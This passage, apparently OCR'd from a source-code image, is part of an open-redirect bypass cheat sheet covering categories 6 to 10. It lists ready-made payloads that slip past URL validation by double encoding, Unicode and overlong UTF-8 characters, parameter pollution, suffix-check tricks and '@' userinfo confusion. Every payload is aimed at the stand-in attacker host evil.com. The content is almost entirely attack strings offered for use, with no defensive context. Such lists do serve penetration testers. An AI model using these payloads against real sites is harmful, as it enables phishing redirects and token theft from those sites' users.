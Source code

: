 ### Category 6: Double Encoding
```bash
Encode key characters like /, \, :, @ twice.
http%253A%252F%252Fevil.com
%252F%252Fevil.com
%255C%255Cevil.com
example.com%2540evil.com
%252e%252e%252fevil.com
%252e%252e%255Cevil.com
```
### Category 7: Unicode Normalization & Special Characters
Some systems decode Unicode characters unexpectedly.
```bash
example.com%u002fevil.com
example.com%C0%AFevil.com (Overlong UTF-8 encoding of /)
example.com%c0%ae%c0%ae%c0%afevil.com (Overlong ../)
example.com%E3%80%82evil.com (Unicode full-width dot)
example.com%EF%BC%8Fevil.com (Unicode full-width slash)
example.com%FF%0Fevil.com
example.com%FE%0Fevil.com
```
### Category 8: Using Parameter Pollution
If the redirect parameter is checked but another isn't, try polluting.
```bash
next=allowed.com&next=evil.com
next=evil.com&next=allowed.com
next=allowed.com;evil.com
next[]=allowed.com&next[]=evil.com
next=allowed.com&otherparam=evil.com (if otherparam is used as fallback)
```
### Category 9: Bypassing "Ends with" or Domain Validation
If they check if the URL ends with .example.com.
```bash
evil.com/example.com
evil.com/example.com#
evil.com/example.com?
evil.com/example.com?param=value
evil.com/example.com#fragment
evil.com?example.com
evil.com#example.com
evil.com\.example.com (Backslash)
evil.com%2fexample.com (Encoded slash)
evil.com%5cexample.com (Encoded backslash)
evil.com%00.example.com (Null byte)
evil.com%23.example.com (Encoded #)
evil.com%3f.example.com (Encoded ?)
```
### Category 10: Advanced Bypasses (Less Common)
```bash
https://example.com\.evil.com
https://example.com[/]evil.com
https://example.com%40evil.com/
https:example.com@evil.com
https://[evil.com]/
https://example.com@evil.com:80@google.com/
https://example.com@evil.com@google.com/
https://&evil.com
https://|evil.com
https://!evil.com
https://'evil.com
https://"evil.com
https://evil.com (Backtick)
```